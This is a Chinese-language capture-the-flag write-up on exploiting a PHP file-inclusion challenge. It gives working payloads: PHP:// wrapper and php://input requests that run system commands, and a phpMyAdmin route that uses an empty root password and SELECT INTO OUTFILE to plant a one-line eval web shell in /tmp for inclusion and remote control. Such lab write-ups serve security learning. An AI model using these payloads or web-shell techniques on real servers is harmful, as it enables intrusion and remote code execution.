





如何利用php文件包含，即include
<!-- more -->

## 解法一（官方writeup）

### 【原理】
php文件包含

### 【目的】
了解如何利用php文件包含

### 【环境】
Windows

### 【工具】
chrome

### 【步骤】
1.审计php代码,while函数根据page参数来判断php文件是否存在，如果存在此文件，则进行文件包含。

2.默认页面为http://127.0.0.1/index.php，设置为page值，可确保while为真

3.利用hello参数将执行内容显示，flag如图所示


http://192.168.100.161:50281/?page=PHP://%3C?system(%22ls%22);?%3E
http://192.168.100.161:50281/?page=http://127.0.0.1/index.php/?hello=%3C?show_source(%22fl4gisisish3r3.php%22);?%3E


## 解法二

strstr()函数区分大小写
传参/?page=PHP://input
之后还要POST参数
但是hackbar是真的不好用，post跟个假的一样
用burp编辑输入<?php system("ls")?\>

之后同样burp传参 page= <?php system("cat fl4gisisish3r3.php);?\>
得到flag

## 不会的解法：连后台

扫描后台的确会发现一个phpmyadmin.php的目录，打开后随意用户名和空密码可以登录

然后我就不会了
****
扫目录   发现phpinfo()可以看到绝对路径   和  phpmyadmin

进入phpmyadmin页面   root直接空密码登录

查看phpmyadmin变量 secure file priv 值为空  说明可以写入一句话

load_file()可以读取任意文件

.......在经过各种尝试写人一句话再用文件包含读取的过程中.发现权限有各种限制。
.......因为page可以直接包含phpinfo()页面显示，所以以phpinfo()为测试，测试到/tmp 目录可以写入，也可以包含读取。
    于是将一句话写入/tmp，菜刀链接文件包含页面，得到flag

<?php eval(@$_POST['flag']); ?>

select "<?php eval(@$_POST['flag']); ?>"into outfile '/var/lib/mysql/test1.php'  能写入，无法包含。
select "<?php eval(@$_POST['flag']); ?>"into outfile '/var/www/test1.php'  无法写入
............
...........
.......

 

select "<?php eval(@$_POST['flag']); ?>"into outfile '/tmp/test.php'  可以写入

http://111.198.29.45:36252/?page=/tmp/test.php 菜刀链接
